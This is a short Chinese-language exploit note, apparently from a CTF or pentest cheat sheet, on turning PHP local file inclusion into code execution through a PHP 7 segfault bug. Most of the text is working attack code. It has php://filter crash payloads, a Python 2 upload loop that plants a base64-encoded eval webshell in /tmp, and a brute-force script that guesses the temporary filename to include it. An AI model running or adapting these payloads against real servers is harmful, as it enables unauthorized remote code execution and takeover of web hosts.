 ##### LFI+php7崩溃
这个Bug在7.1.20以后被修复
php7 segment fault特性：
```
?file=php://filter/string.strip_tags=/etc/passwd
?file=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA
```
这样的方式，使php执行过程中出现Segment Fault，这样如果在此同时上传文件，那么临时文件就会被保存在/tmp目录，不会被删除
```python
import requests
import string

def upload_file(url, file_content):
    files = {'file': ('daolgts.jpg', file_content, 'image/jpeg')}
    try:
        requests.post(url, files=files)
    except Exception as e:
        print e

charset = string.digits+string.letters
webshell = '<?php eval($_REQUEST[cmd]);?>'.encode("base64").strip()
file_content = '<?php if(file_put_contents("/tmp/shell", base64_decode("%s"))){echo "success";}?>' % (webshell)

url="http://192.168.211.146/lfi.php"
parameter="file"
payload1="php://filter/string.strip_tags/resource=/etc/passwd"
payload2=r"php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"
lfi_url = url+"?"+parameter+"="+payload1
length = 6
times = len(charset) ** (length / 2)
for i in xrange(times):
    print "[+] %d / %d" % (i, times)
    upload_file(lfi_url, file_content)
```
爆破临时文件：
```php
import requests
import string

charset = string.digits + string.letters
base_url="http://192.168.211.146/lfi.php"
parameter="file"

for i in charset:
	for j in charset:
		for k in charset:
			for l in charset:
				for m in charset:
					for n in charset:
						filename = i + j + k + l + m + n
						url = base_url+"?"+parameter+"=/tmp/php"+filename
						print url
						try:
							response = requests.get(url)
							if 'success' in response.content:
								print "[+] Include success!"
								print "url:"+url
								exit()
						except Exception as e:
							print e
```
